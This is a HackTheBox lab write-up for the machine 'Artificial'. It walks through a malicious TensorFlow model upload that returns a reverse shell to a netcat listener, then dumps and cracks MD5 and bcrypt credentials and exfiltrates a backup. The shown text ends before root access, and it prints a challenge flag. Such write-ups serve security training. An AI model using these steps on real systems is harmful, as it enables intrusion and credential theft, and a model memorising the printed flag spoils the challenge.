






# Artificial

> Platform: HackTheBox
>
> Created by: [FisMatHack](https://app.hackthebox.com/users/1076236)
>
> Difficulty: Easy
>
> Status: Season 8 Machine


## 🔗 Overview

_[Artificial](https://app.hackthebox.com/machines/Artificial) presents a Flask site on artificial.htb that lets you upload TensorFlow .h5 models. A malicious model triggers code execution for a shell as app. From there, dumped SQLite creds crack to SSH in as gael. Priv-esc comes from a readable Backrest backup: crack its admin, port-forward to Backrest, make it back up /root to your rest-server, then restore and read root.txt._

**⚡Attack Path:**
Upload malicious <code>.h5</code> → shell as <code>app</code> → read <code>users.db</code> → crack MD5 → **SSH** <code>gael</code> → read Backrest backup → crack <code>backrest_root</code> → **port-forward 9898** → Backrest → point to attacker **rest-server** → back up <code>/root</code> → restore → <code>root.txt</code>.


## 🔍 Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Artificial]
└─$ nmap -sVSC <MACHINE-IP> -T4 -Pn -n -vvv -oA artificialscan
Nmap scan report for <MACHINE-IP>
Host is up, received user-set (0.021s latency).
Scanned at 2025-07-21 17:15:00 +08 for 7s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDNABz8gRtjOqG4+jUCJb2NFlaw1auQlaXe1/+I+BhqrriREBnu476PNw6mFG9ifT57WWE/qvAZQFYRvPupReMJD4C3bE3fSLbXAoP03+7JrZkNmPRpVetRjUwP1acu7golA8MnPGzGa2UW38oK/TnkJDlZgRpQq/7DswCr38IPxvHNO/15iizgOETTTEU8pMtUm/ISNQfPcGLGc0x5hWxCPbu75OOOsPt2vA2qD4/sb9bDCOR57bAt4i+WEqp7Ri/act+f4k6vypm1sebNXeYaKapw+W83en2LnJOU0lsdhJiAPKaD/srZRZKOR0bsPcKOqLWQR/A6Yy3iRE8fcKXzfbhYbLUiXZzuUJoEMW33l8uHuAza57PdiMFnKqLQ6LBfwYs64Q3v8oAn5O7upCI/nDQ6raclTSigAKpPbliaL0HE/P7UhNacrGE7Gsk/FwADiXgEAseTn609wBnLzXyhLzLb4UVu9yFRWITkYQ6vq4ZqsiEnAsur/jt8WZY6MQ8=
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOdlb8oU9PsHX8FEPY7DijTkQzsjeFKFf/xgsEav4qedwBUFzOetbfQNn3ZrQ9PMIHrguBG+cXlA2gtzK4NPohU=
|   256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH8QL1LMgQkZcpxuylBjhjosiCxcStKt8xOBU0TjCNmD
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the **Nmap** results, looks like the port <code>22</code> and port <code>80</code> are open.

Make sure to add the host name in our host file before we can view the page:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Artificial]
└─$ sudo nano /etc/hosts
# /etc/hosts
<MACHINE-IP>    artificial.htb
```


Now try to **enumerate the web directory** of the page **using GoBuster**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Artificial]
└─$ gobuster dir -u http://artificial.htb/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://artificial.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/dashboard            (Status: 302) [Size: 199] [--> /login]
/login                (Status: 200) [Size: 857]
/logout               (Status: 302) [Size: 189] [--> /]
/register             (Status: 200) [Size: 952]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================
```

Try to register a new user and login to the page to view what function does the webpages offers.



Looks like we need to exploit the file upload here, but we need to craft the payload as the AI models format which is the .h5 format. From the main page, we also know that we can try to find the Tensorflow exploit.


## ⚔️ Exploitation

Based on this [Tensorflow RCE GitHub](https://github.com/Splinter0/tensorflow-rce), we can try to craft our payload to gain reverse shell to the server. We also can download the Dockerfile aswell as the requirements.txt from the server.

Lets clone the Tensorflow RCE GitHub repository first:
```
┌──(kali㉿kali)-[~/upload]
└─$ git clone https://github.com/Splinter0/tensorflow-rce.git     
Cloning into 'tensorflow-rce'...
remote: Enumerating objects: 16, done.
remote: Counting objects: 100% (16/16), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 16 (delta 4), reused 7 (delta 1), pack-reused 0 (from 0)
Receiving objects: 100% (16/16), 4.22 KiB | 4.22 MiB/s, done.
Resolving deltas: 100% (4/4), done.
                                                                                             
┌──(kali㉿kali)-[~/upload]
└─$ cd tensorflow-rce 
```

Then, we can try to build the Docker image:
```
┌──(venv)─(kali㉿kali)-[~/upload/tensorflow-rce]
└─$ sudo docker build -t artificial .      
[sudo] password for kali: 
[+] Building 128.4s (8/8) FINISHED                                            docker:default
 => [internal] load build definition from Dockerfile                                    0.0s
 => => transferring dockerfile: 496B                                                    0.0s 
 => [internal] load metadata for docker.io/library/python:3.8-slim                      4.6s 
 => [internal] load .dockerignore                                                       0.0s
 => => transferring context: 2B                                                         0.0s 
 => [1/4] FROM docker.io/library/python:3.8-slim@sha256:1d52838af602b4b5a831beb13a0e4d  7.0s 
 => => resolve docker.io/library/python:3.8-slim@sha256:1d52838af602b4b5a831beb13a0e4d  0.0s
 => => sha256:302e3ee498053a7b5332ac79e8efebec16e900289fc1ecd1c754ce 29.13MB / 29.13MB  2.3s 
 => => sha256:030d7bdc20a63e3d22192b292d006a69fa3333949f536d62865d1bd0 3.51MB / 3.51MB  2.0s
 => => sha256:a3f1dfe736c5f959143f23d75ab522a60be2da902efac236f4fb2a 14.53MB / 14.53MB  2.3s
 => => sha256:1d52838af602b4b5a831beb13a0e4d073280665ea7be7f69ce2382 10.41kB / 10.41kB  0.0s
 => => sha256:314bc2fb0714b7807bf5699c98f0c73817e579799f2d91567ab7e951 1.75kB / 1.75kB  0.0s 
 => => sha256:b5f62925bd0f63f48cc8acd5e87d0c3a07e2f229cd2fb0a9586e68ed 5.25kB / 5.25kB  0.0s 
 => => sha256:3971691a363796c39467aae4cdce6ef773273fe6bfc67154d01e1b589bef 248B / 248B  2.9s 
 => => extracting sha256:302e3ee498053a7b5332ac79e8efebec16e900289fc1ecd1c754ce8fa047f  2.4s
 => => extracting sha256:030d7bdc20a63e3d22192b292d006a69fa3333949f536d62865d1bd050668  0.2s
 => => extracting sha256:a3f1dfe736c5f959143f23d75ab522a60be2da902efac236f4fb2a153cc14  1.7s
 => => extracting sha256:3971691a363796c39467aae4cdce6ef773273fe6bfc67154d01e1b589befb  0.0s
 => [2/4] WORKDIR /code                                                                 0.4s 
 => [3/4] RUN apt-get update &&     apt-get install -y curl &&     curl -k -LO https:  82.7s
 => [4/4] RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.man  27.2s
 => exporting to image                                                                  6.4s 
 => => exporting layers                                                                 6.4s 
 => => writing image sha256:19a384916d48f7e8104ab2e8bfc1d896bae58b4877702cc21c33d6b2b4  0.0s 
 => => naming to docker.io/library/artificial                                           0.0s 
```

Next, run the image with our exploit path:
```
┌──(venv)─(kali㉿kali)-[~/upload/tensorflow-rce]
└─$ sudo docker run -it -v $(pwd):/app artificial
root@92733d681917:/code# ls
tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl
root@92733d681917:/code# cd /app
root@92733d681917:/app# ls
Dockerfile  LICENSE  README.md  dector.py  exploit.py  inject.py  model.py  requirements.txt
root@92733d681917:/app# python3 exploit.py 
2025-09-10 11:24:01.045990: I tensorflow/core/platform/cpu_feature_guard.cc:182] This TensorFlow binary is optimized to use available CPU instructions in performance-critical operations.
To enable the following instructions: FMA, in other operations, rebuild TensorFlow with the appropriate compiler flags.
sh: 1: nc: not found
/usr/local/lib/python3.8/site-packages/keras/src/engine/training.py:3000: UserWarning: You are saving your model as an HDF5 file via `model.save()`. This file format is considered legacy. We recommend using instead the native Keras format, e.g. `model.save('my_model.keras')`.
  saving_api.save_model(
root@92733d681917:/app#
```

Then, run a netcat listener before uploading the file to the page:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Artificial]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

Upload the file to the page and click the View Predictions button:


You will be connected as the user app:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Artificial]
└─$ nc -lvnp 4444
listening on [any] 44MACHINE
connect to [<ATTACKER-IP>] from (UNKNOWN) [<MACHINE-IP>] 37124
/bin/sh: 0: can't access tty; job control turned off
$ whoami
app
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
app@artificial:~/app$ export TERM=xterm
export TERM=xterm
app@artificial:~/app$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                             
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Artificial]
└─$ stty raw -echo; fg           
[1]  + continued  nc -lvnp 4444
                               ls
app.py  instance  models  __pycache__  static  templates
app@artificial:~/app$
```

Now, try to view the source code of app.py:
```
app@artificial:~/app$ cat app.py
...

app = Flask(__name__)
app.secret_key = "Sup3rS3cr3tKey4rtIfici4L"

app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///users.db'
app.config['SQLALCHEMY_TRACK_MODIFICATIONS'] = False
app.config['UPLOAD_FOLDER'] = 'models'

db = SQLAlchemy(app)

...

def hash(password):
 password = password.encode()
 hash = hashlib.md5(password).hexdigest()
 return hash

@app.route('/')
def index():
    if ('user_id' in session):
        username = session['username']
        if (User.query.filter_by(username=username).first()):
            return redirect(url_for('dashboard'))

    return render_template('index.html')

...
```

As we can see here, there is a sqlite database in the server. Try to locate the users.db and interact with the server to reveal other useful information:
```
app@artificial:~/app$ ls instance/
users.db
app@artificial:~/app$ cd instance/
app@artificial:~/app/instance$ sqlite3 users.db .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE user (
        id INTEGER NOT NULL, 
        username VARCHAR(100) NOT NULL, 
        email VARCHAR(120) NOT NULL, 
        password VARCHAR(200) NOT NULL, 
        PRIMARY KEY (id), 
        UNIQUE (username), 
        UNIQUE (email)
);
INSERT INTO user VALUES(1,'gael','gael@artificial.htb','c99175974b6e192936d97224638a34f8');
INSERT INTO user VALUES(2,'mark','mark@artificial.htb','0f3d8c76530022670f1c6029eed09ccb');
INSERT INTO user VALUES(3,'robert','robert@artificial.htb','b606c5f5136170f15444251665638b36');
INSERT INTO user VALUES(4,'royer','royer@artificial.htb','bc25b1f80f544c0ab451c02a3dca9fc6');
INSERT INTO user VALUES(5,'mary','mary@artificial.htb','bf041041e57f1aff3be7ea1abd6129d0');
INSERT INTO user VALUES(6,'admin','admin@admin.com','21232f297a57a5a743894a0e4a801fc3');
INSERT INTO user VALUES(7,'oxygen','oxygen@gmail.com','4a33dd9ae8e15212b8a25764cff420a8');
INSERT INTO user VALUES(8,'d4rks0u1','d4rk@some.htb','81dc9bdb52d04dc20036dbd8313ed055');
INSERT INTO user VALUES(9,'test','test@test.com','098f6bcd4621d373cade4e832627b4f6');
INSERT INTO user VALUES(10,'test1','test@email.com','ee5aaa9a8c756f912e99cf9129878ca5');
CREATE TABLE model (
        id VARCHAR(36) NOT NULL, 
        filename VARCHAR(120) NOT NULL, 
        user_id INTEGER NOT NULL, 
        PRIMARY KEY (id), 
        FOREIGN KEY(user_id) REFERENCES user (id)
);
INSERT INTO model VALUES('774cc036-21cc-4956-8853-a3b6db6a5ecf','774cc036-21cc-4956-8853-a3b6db6a5ecf.h5',9);
COMMIT;

app@artificial:~/app/instance$ sqlite3 users.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> select username, password from user;
gael|c99175974b6e192936d97224638a34f8
mark|0f3d8c76530022670f1c6029eed09ccb
robert|b606c5f5136170f15444251665638b36
royer|bc25b1f80f544c0ab451c02a3dca9fc6
mary|bf041041e57f1aff3be7ea1abd6129d0
admin|21232f297a57a5a743894a0e4a801fc3
oxygen|4a33dd9ae8e15212b8a25764cff420a8
d4rks0u1|81dc9bdb52d04dc20036dbd8313ed055
test|098f6bcd4621d373cade4e832627b4f6
test1|ee5aaa9a8c756f912e99cf9129878ca5
sqlite> .exit
app@artificial:~/app/instance$
```

With the retrieved credentials, let see which user is available in the server:
```
app@artificial:~/app/instance$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
gael:x:1000:1000:gael:/home/gael:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001:,,,:/home/app:/bin/bash
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:997:997::/var/log/laurel:/bin/false
app@artificial:~/app/instance$
```

Nice, now let's try to crack the password for the user gael. I used the [CrackStation](https://crackstation.net/) page:



Nice! Now, with the retrieved credentials, we can SSH to the server:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Artificial]
└─$ ssh gael@<MACHINE-IP>
The authenticity of host '<MACHINE-IP> (<MACHINE-IP>)' can't be established.
ED25519 key fingerprint is SHA256:RfqGfdDw0WXbAPIqwri7LU4OspmhEFYPijXhBj6ceHs.
This key is not known by any other names.
Are you sure you want tMACHINEinue connecting (yes/no/[fingerprint])? yes
MACHINEg: Permanently added '<MACHINE-IP>' (ED25519) to the list of known hosts.
gael@<MACHINE-IP>'s password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed 10 Sep 2025 11:03:01 AM UTC

  System load:           0.0
  Usage of /:            62.8% of 7.53GB
  Memory usage:          37%
  Swap usage:            0%
  Processes:             279
  Users logged in:  gael
  IPv4 address for eth0: <MACHINE-IP>
  IPv6 address for eth0: dead:beef::250:56ff:feb9:7c15


Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Wed Sep 10 11:03:02 2025 from <ATTACKER-IP>
gael@artificial:~$ ls
user.txt
gael@artificial:~$ cat user.txt
```

<details>
<summary><b>🏳️user.txt</b></summary>
<b><code>07d5efee433a43fa16cf183ceb636857</code></b>
</details><br>


## 💀 Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
gael@artificial:~$ sudo -l
[sudo] password for gael:
Sorry, user gael may not run sudo on artificial.
```

I also tried uploading <code>linpeas</code> from my machine to ease up the process.
```
...
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rw-r----- 1 root gael 33 Sep  9 19:36 /home/gael/user.txt                                   
-rw-r----- 1 root sysadm 52357120 Mar  4  2025 /var/backups/backrest_backup.tar.gz
...
```

Try to retrieve the files to our server:
```
┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Artificial]
└─$ scp gael@<MACHINE-IP>:/var/backups/backrest_backup.tar.gz /mnt/CTF/CyberSec/Learning/HackTheBox/Machines/Artificial 
gael@<MACHINE-IP>'s password: 
backrest_backup.tar.gz

┌──(kali㉿kali)-[/mnt/…/Learning/HackTheBox/Machines/Artificial]
└─$ tar -xvf backrest_backup.tar.gz 
backrest/
backrest/restic
backrest/oplog.sqlite-wal
backrest/oplog.sqlite-shm
backrest/.config/
backrest/.config/backrest/
backrest/.config/backrest/config.json
backrest/oplog.sqlite.lock
backrest/backrest
backrest/tasklogs/
backrest/tasklogs/logs.sqlite-shm
backrest/tasklogs/.inprogress/
backrest/tasklogs/logs.sqlite-wal
backrest/tasklogs/logs.sqlite
backrest/oplog.sqlite
backrest/jwt-secret
backrest/processlogs/
backrest/processlogs/backrest.log
backrest/install.sh
```

We found out there is a credentials for the user backrest_root:
```
┌──(kali㉿kali)-[/mnt/…/Artificial/backrest/.config/backrest]
└─$ cat config.json         
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```

Try to crack the password:
```
┌──(kali㉿kali)-[/mnt/…/Artificial/backrest/.config/backrest]
└─$ echo 'JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP' | base64 -d > backrest_root.hash
                                                                                                                                                                                              
┌──(kali㉿kali)-[/mnt/…/Artificial/backrest/.config/backrest]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt backrest_root.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^           (?)     
1g 0:00:00:18 DONE (2025-09-10 20:12) 0.05405g/s 291.8p/s 291.8c/s 291.8C/s lightbulb..huevos
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

We also found that the credentials is actually for the backrest service running on the server which can be accessible through localhost at port 9898:
```
┌──(kali㉿kali)-[/mnt/…/HackTheBox/Machines/Artificial/backrest]
└─$ cat install.sh 
#! /bin/bash

cd "$(dirname "$0")" # cd to the directory of this script

install_or_update_unix() {
  if systemctl is-active --quiet backrest; then
    sudo systemctl stop backrest
    echo "Paused backrest for update"
  fi
  install_unix
}

install_unix() {
  echo "Installing backrest to /usr/local/bin"
  sudo mkdir -p /usr/local/bin

  sudo cp $(ls -1 backrest | head -n 1) /usr/local/bin
}

create_systemd_service() {
  if [ ! -d /etc/systemd/system ]; then
    echo "Systemd not found. This script is only for systemd based systems."
    exit 1
  fi

  if [ -f /etc/systemd/system/backrest.service ]; then
    echo "Systemd unit already exists. Skipping creation."
    return 0
  fi

  echo "Creating systemd service at /etc/systemd/system/backrest.service"

  sudo tee /etc/systemd/system/backrest.service > /dev/null <<- EOM
[Unit]
Description=Backrest Service
After=network.target

[Service]
Type=simple
User=$(whoami)
Group=$(whoami)
ExecStart=/usr/local/bin/backrest
Environment="BACKREST_PORT=127.0.0.1:9898"
Environment="BACKREST_CONFIG=/opt/backrest/.config/backrest/config.json"
Environment="BACKREST_DATA=/opt/backrest"
Environment="BACKREST_RESTIC_COMMAND=/opt/backrest/restic"

[Install]
WantedBy=multi-user.target
EOM

  echo "Reloading systemd daemon"
  sudo systemctl daemon-reload
}

create_launchd_plist() {
  echo "Creating launchd plist at /Library/LaunchAgents/com.backrest.plist"

  sudo tee /Library/LaunchAgents/com.backrest.plist > /dev/null <<- EOM
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.backrest</string>
    <key>ProgramArguments</key>
    <array>
    <string>/usr/local/bin/backrest</string>
    </array>
    <key>KeepAlive</key>
    <true/>
    <key>EnvironmentVariables</key>
    <dict>
        <key>PATH</key>
        <string>/usr/local/bin:/usr/bin:/bin:/usr/sbin:/sbin</string>
        <key>BACKREST_PORT</key>
        <string>127.0.0.1:9898</string>
    </dict>
</dict>
</plist>
EOM
}

enable_launchd_plist() {
  echo "Trying to unload any previous version of com.backrest.plist"
  launchctl unload /Library/LaunchAgents/com.backrest.plist || true
  echo "Loading com.backrest.plist"
  launchctl load -w /Library/LaunchAgents/com.backrest.plist
}

OS=$(uname -s)
if [ "$OS" = "Darwin" ]; then
  echo "Installing on Darwin"
  install_unix
  create_launchd_plist
  enable_launchd_plist
  sudo xattr -d com.apple.quarantine /usr/local/bin/backrest # remove quarantine flag
elif [ "$OS" = "Linux" ]; then
  echo "Installing on Linux"
  install_or_update_unix
  create_systemd_service
  echo "Enabling systemd service backrest.service"
  sudo systemctl enable backrest
  sudo systemctl start backrest
else
  echo "Unknown OS: $OS. This script only supports Darwin and Linux."
  exit 1
fi

echo "Logs are available at ~/.local/share/backrest/processlogs/backrest.log"
